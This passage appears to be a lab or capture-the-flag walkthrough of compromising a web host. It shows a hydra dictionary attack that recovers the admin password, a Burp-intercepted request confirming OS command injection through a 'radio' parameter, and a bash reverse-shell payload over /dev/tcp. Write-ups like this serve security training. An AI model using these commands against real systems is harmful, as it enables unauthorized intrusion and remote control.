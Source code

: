 - `http://192.168.70.195/index.php`
	- Login form

- Attemping a dictionary attack
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.70.195 http-post-form "/login.php:username=admin&password=^PASS^:S=logout" -vV -f

[80][http-post-form] host: 192.168.70.195   login: admin   password: happy
```
- Credentials to login is `admin:happy`
- Loggin in presents us with options with running OS commands and displaying them the results in the web browser
- Intercepting request in Burp. Testing for ping back by changing `radio` parameter from `ls -l` to `ping -c 4 192.168.49.70`
```
POST /command.php HTTP/1.1
Host: 192.168.70.195
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: http://192.168.70.195
Connection: close
Referer: http://192.168.70.195/command.php
Cookie: PHPSESSID=vh6c4m5ne0h288f68bk01enj22
Upgrade-Insecure-Requests: 1

radio=ls+-l&submit=Run
```
- I get a ping back
```bash
sudo tcpdump -i tun0 icmp
[sudo] password for Default: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
15:05:50.834039 IP 192.168.70.195 > 192.168.49.70: ICMP echo request, id 1206, seq 1, length 64
15:05:50.834053 IP 192.168.49.70 > 192.168.70.195: ICMP echo reply, id 1206, seq 1, length 64
15:05:51.835147 IP 192.168.70.195 > 192.168.49.70: ICMP echo request, id 1206, seq 2, length 64
15:05:51.835160 IP 192.168.49.70 > 192.168.70.195: ICMP echo reply, id 1206, seq 2, length 64
15:05:52.836394 IP 192.168.70.195 > 192.168.49.70: ICMP echo request, id 1206, seq 3, length 64
15:05:52.836431 IP 192.168.49.70 > 192.168.70.195: ICMP echo reply, id 1206, seq 3, length 64
15:05:53.837372 IP 192.168.70.195 > 192.168.49.70: ICMP echo request, id 1206, seq 4, length 64
15:05:53.837386 IP 192.168.49.70 > 192.168.70.195: ICMP echo reply, id 1206, seq 4, length 64
```
- Tests for value of `radio` parameter
	- `bash -i >& /dev/tcp/192.168.49.70/53 0>&1` - FAILED
	- `bash -c "bash -i >& /dev/tcp/192.168.49.70/53 0>&1"` - SUCCESS



## Exploitation
- Login to `http://192.168.70.195/index.php` using the credentials `admin:happy`
- Issue a command and intercept the HTTP request header via Burp
- Modify the `radio` parameters value to `bash -c "bash -i >& /dev/tcp/192.168.49.70/53 0>&1"`
